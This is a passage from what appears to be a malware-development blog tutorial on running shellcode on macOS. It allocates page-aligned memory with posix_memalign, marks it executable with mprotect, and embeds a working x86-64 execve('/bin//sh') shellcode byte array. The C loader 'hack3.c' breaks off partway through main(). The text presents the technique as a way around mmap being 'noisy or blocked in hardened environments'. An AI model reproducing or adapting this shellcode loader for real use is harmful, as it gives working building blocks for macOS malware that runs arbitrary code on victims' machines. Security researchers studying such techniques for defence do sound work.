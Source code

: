 It works! Great!     

### practical example 3 (shellcode execution using `posix_memalign` + `mprotect`)

In this example I'll explore another method of executing shellcode on macOS - using `posix_memalign()` and `mprotect()` instead of `mmap()`. This method is subtle and cleaner in some cases, especially when working with memory-aligned regions, and avoids `MAP_ANON` allocation.    

What is `posix_memalign`? The function:   
```cpp
posix_memalign(void **memptr, size_t alignment, size_t size)
``` 

allocates memory aligned on a specified boundary - perfect for page alignment (pagesize).    

It's great when:

You want manual control over memory alignment.     
You prefer not to use `mmap()`, which can be noisy or blocked in hardened environments.    
You want to work with portable heap memory.     

What about `mprotect`? Memory allocated via `malloc` or `posix_memalign` is usually non-executable due to `DEP (Data Execution Prevention)`.
To allow execution, we use:    

```cpp
mprotect(buf, pagesize, PROT_READ | PROT_WRITE | PROT_EXEC);
```

This marks the memory region as executable.    

> **Warning!** To be honest, `mprotect()` might fail silently if System Integrity Protection (SIP) is enabled. Test in VM, debug mode, or hardened lab.

Here's the full C code using `posix_memalign` and `mprotect` to execute our shellcode (`hack3.c`):     

```cpp
/*
* hack3.c
* run via posix_memalign + mprotect
* author: @cocomelonc
* https://cocomelonc.github.io/macos/2025/08/02/malware-mac-7.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>
#include <unistd.h>

unsigned char code[] =
  /* 0000 */ "\x31\xf6"                                 /* xor     esi, esi                */
  /* 0002 */ "\xf7\xe6"                                 /* mul     esi                     */
  /* 0004 */ "\x0f\xba\xe8\x19"                         /* bts     eax, 0x19               */
  /* 0008 */ "\xb0\x3b"                                 /* mov     al, 0x3b                */
  /* 000A */ "\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68" /* movabs  rbx, 0x68732f2f6e69622f */
  /* 0014 */ "\x52"                                     /* push    rdx                     */
  /* 0015 */ "\x53"                                     /* push    rbx                     */
  /* 0016 */ "\x54"                                     /* push    rsp                     */
  /* 0017 */ "\x5f"                                     /* pop     rdi                     */
  /* 0018 */ "\x0f\x05"                                 /* syscall                         */;


int main() {
  size_t pagesize = sysconf(_SC_PAGESIZE);
  void *buf = NULL;

  // allocate page-aligned buffer
  if (posix_memalign(&buf, pagesize, pagesize) != 0) {
```